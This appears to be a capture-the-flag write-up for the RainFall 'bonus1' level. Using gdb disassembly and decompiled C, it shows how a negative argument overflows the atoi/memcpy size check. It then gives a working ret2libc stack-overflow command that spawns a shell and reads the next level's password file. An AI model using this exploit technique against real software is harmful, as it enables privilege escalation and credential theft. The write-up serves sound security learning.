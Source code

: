 # Bonus1

```bash
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
```

There is an `execl` function call, we will probably need it !

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0
   0x0804842a <+6>:	sub    esp,0x40
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:	add    eax,0x4
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave  
   0x080484a4 <+128>:	ret    
End of assembler dump.
```

Here is the main function, this program takes 2 arguments.

Based on https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0#Boomerang=1&Hex-Rays=126&Ghidra=136&BinaryNinja=103, it should look like this :

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE dest[40]; // [esp+14h] [ebp-2Ch] BYREF
  int v5; // [esp+3Ch] [ebp-4h]

  v5 = atoi(argv[1]);
  if ( v5 > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * v5);
  if ( v5 == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
```

We will try to overwrite `dest` with `argv[2]` during the `memcpy` call.

It will not be possible because we  only copy at max 9 * 4 = 36 chars while we need to overflow at least after 60 chars :

- `sub    esp,0x40` = 60 chars for variable `dest`

We cannot do anything with a size of 36…

It seems that we will have to int overflow `atoi`. As in `memcpy` we do `v5 * 4` we may achieve to have a positive number that will be big enough.

To get  the overflow, our negative number should be greater than INT_MIN when multiplied by 4 !

INT_MIN = –**2147483648**

-**2147483648 / 4 = -536870912**

As said before, we need 60 chars to overwrite EIP. After it, it should be easy to call `system`, because we already have the string `"/bin/sh"` , with no calculations !

The overflow will go from -**2147483648** to **2147483647** to **2147483646** etc…

we need a big overflow to achieve this. We will try several values :

- -550 000 000 → 2094967296 (we should go bigger)
- -1 000 000 000 → 294967296 (bigger)
- -1 500 000 000 → -1705032704 (smaller ?)
- -1 200 000 000 → -505032704 (smaller)
- -1050000000 → 94967296 (bigger)
- …
- -1073741805 → 76

Ok we have 76 ! We can modify the last number to adapt it 4 by 4. To find this, I modified each number from bigger to smaller, and when I found the smallest positive value I took it.

We don’t want garbbage so we will use a nearly exact value !

Next the overflow of EIP : our local variable is 60 bytes long

```bash
(gdb) r -1073741805 `python -c 'print("A" * 60)'`
Starting program: /home/user/bonus1/bonus1 -1073741805 `python -c 'print("A" * 60)'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

EIP was overwritten !! Now we will place the address of `system` inside of EIP, then the return address of `memcpy` , and finally the address of `"/bin/sh"` !

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Return address for `memcpy`  : `0x08048478`  (see `disas main`)

```bash
(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```

```bash
bonus1@RainFall:~$ ./bonus1 -1073741805 `python -c 'print("A" * 56 + "\x60\xb0\xe6\xb7" + "\x78\x84\x04\x08" + "\x83\x85\x04\x08")'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```